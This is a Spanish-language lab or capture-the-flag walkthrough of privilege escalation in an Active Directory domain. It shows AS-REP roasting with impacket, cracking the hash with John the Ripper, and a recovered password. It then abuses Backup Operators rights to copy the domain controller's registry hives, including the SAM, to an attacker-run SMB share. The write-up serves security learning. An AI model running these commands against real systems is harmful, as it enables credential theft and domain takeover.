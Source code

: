Podemos ver algo interesante, el usuario zximena448 pertenece al grupo de backup operators, por lo que conseguir este usuario puede ser interesante.

## Escalada de privilegios
Ahora en bloodhound vamos a buscar mas información, por ejemplo vamos a listar a ver si hay usuarios kerberoasteables o AS-REP rosasteables.

![image](https://github.com/user-attachments/assets/fe0f0f3c-c214-4fce-a40a-4fd77bb5c7c7)
 
Parece ser que el usuario zximena448 es vulnerable a un ataque as-rep roasting, que a su vez, hemos visto que este usuario pertenece al grupo backup operators
```
impacket-GetNPUsers SOUPEDECODE.LOCAL/ -usersfile valid_ADUsers.txt -outputfile hashes.asreproast
```
![image](https://github.com/user-attachments/assets/006cddd0-96ad-4fbe-9cd2-a77cf605e9a8)
 
Tenemos el hash NTLMv2 del usuario zximena448, ahora vamos a crackearlo con johntheripper
```
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast
```
![image](https://github.com/user-attachments/assets/578538cd-3a02-4090-b478-e97355221fd2)
 
Tenemos otro usuario; 
```
zximena448:internet
``` 

Listamos carpetas compartidas y vemos si tenemos acceso mediante winrm, pero no hay suerte, lo único que tenemos permisos para leer y escribir en la carpeta C, y lectura sobre admin

![image](https://github.com/user-attachments/assets/6d8ba51a-c0c2-4dd4-a798-cad7c9b5aef5)

Los miembros del grupo BackUp Operators pueden realizar copias de seguridad y restaurar todos los archivos de un ordenador, independientemente de los permisos que protejan dichos archivos. Los operadores de copia de seguridad también pueden iniciar sesión y apagar el ordenador. Este grupo no puede ser renombrado, borrado o eliminado. Por defecto, este grupo no tiene miembros y puede realizar operaciones de copia de seguridad y restauración en los controladores de dominio.

Vamos a tratar de extraer la SAM. El administrador de cuentas de seguridad o SAM (del inglés Security Account Manager) es una base de datos almacenada como un fichero del registro en Windows NT, Windows 2000, y versiones posteriores de Microsoft Windows. Almacena las contraseñas de los usuarios en un formato con hash (seguro, cifrado).

Para ello vamos a utilizar la herramienta backup_dc_registry, ya que no tenemos acceso a la maquina y hay que hacerlo de forma remota
```
git clone https://github.com/horizon3ai/backup_dc_registry.git
cd backup_dc_registry
python3 reg.py zximena448:'internet'@14.14.1.29 backup -p '\\14.14.1.100\share'
```
Tenemos que levantar con impacket en otra terminar un smbserver
```
impacket-smbserver share $(pwd) -smb2support
```
![image](https://github.com/user-attachments/assets/3a837dda-9277-4625-983d-b9060ba07527)
 
